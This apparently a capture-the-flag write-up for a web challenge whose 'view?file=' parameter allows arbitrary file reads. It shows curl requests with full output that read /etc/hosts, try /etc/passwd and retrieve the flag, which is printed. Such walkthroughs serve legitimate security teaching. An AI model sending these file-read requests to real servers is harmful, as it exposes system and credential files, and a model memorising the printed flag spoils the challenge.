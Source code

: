 # What to do during Christmas? (web) (author: snn)

## Description

```shell
If you need a good excuse to discuss a security topic during a family reunion, the elves prepare a list of cybersecurity-related books and movies. Try to get one during Christmas and enjoy!

PS: We hope they have done a good job securing the web app ;-)

In new browser tab enter url: http://cyberxmas.milestone.dk:[YOUR_DOCKER_PORT>/
```

## Task analysis & solution

The challenge is in the web category and when we browse the provided url, after you will see a redirect message:

![alt text](image-1.png)

After these 15 seconds you are ended up to this page:
 
 ![alt text](image.png)

That redirected location looked suspicious to me as in the browser we can see the following:

*```view?file=index.html```*

So we have a view with a **`file`** filter command.

The fist thing that come to my mind is to try with some dummy data -> dummy.html

![alt text](image-2.png)

The responce we've got is interesting:
```No such file or directory: '/app/dummy.html'```

So it search a dummy.html file in /app directory
Let's try to use some common linux files like /etc/hosts or /etc/passwd

For easy playground I've moved to curl in cmd shell:

Trying with /etc/hosts
```shell
$ curl http://10.10.8.61:46510/view?file=/etc/hosts -v
*   Trying 10.10.8.61:46510...
* Connected to 10.10.8.61 (10.10.8.61) port 46510
> GET /view?file=/etc/hosts HTTP/1.1
> Host: 10.10.8.61:46510
> User-Agent: curl/8.9.1
> Accept: */*
>
* Request completely sent off
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Content-Disposition: inline; filename=hosts
< Content-Type: application/octet-stream
< Content-Length: 174
< Last-Modified: Sun, 05 Jan 2025 12:02:11 GMT
< Cache-Control: no-cache
< ETag: "1736078531.4621272-174-324273100"
< Date: Sun, 05 Jan 2025 19:38:49 GMT
< Server: Werkzeug/2.0.3 Python/3.9.20
<
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.17.0.2      97804735efee
* shutting down connection #0
```

Trying with /etc/passwd:
```shell
$ curl http://10.10.8.61:46510/view?file=/etc/passwd -v
*   Trying 10.10.8.61:46510...
* Connected to 10.10.8.61 (10.10.8.61) port 46510
> GET /view?file=/etc/passwd HTTP/1.1
> Host: 10.10.8.61:46510
> User-Agent: curl/8.9.1
> Accept: */*
>
* Request completely sent off
* Recv failure: Connection was reset
* closing connection #0
curl: (56) Recv failure: Connection was reset
```

So for hosts works for passwd nope.

The next thing to try is to search for the flag, and based on my experience from previous challenges,
I decided to try with **`flag.txt`** as file name (that name was used in some docker & web categories)

```shell
$ curl http://10.10.8.61:46510/view?file=flag.txt -v
*   Trying 10.10.8.61:46510...
* Connected to 10.10.8.61 (10.10.8.61) port 46510
> GET /view?file=flag.txt HTTP/1.1
> Host: 10.10.8.61:46510
> User-Agent: curl/8.9.1
> Accept: */*
>
* Request completely sent off
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Content-Disposition: inline; filename=flag.txt
< Content-Type: text/plain; charset=utf-8
< Content-Length: 40
< Last-Modified: Wed, 04 Dec 2024 13:40:43 GMT
< Cache-Control: no-cache
< ETag: "1733319643.0-40-532153544"
< Date: Sun, 05 Jan 2025 19:43:38 GMT
< Server: Werkzeug/2.0.3 Python/3.9.20
<
MlestoneCTF{web_security_can_be_simple}
* shutting down connection #0
```

I've got a lucky shot: *```MlestoneCTF{web_security_can_be_simple}```*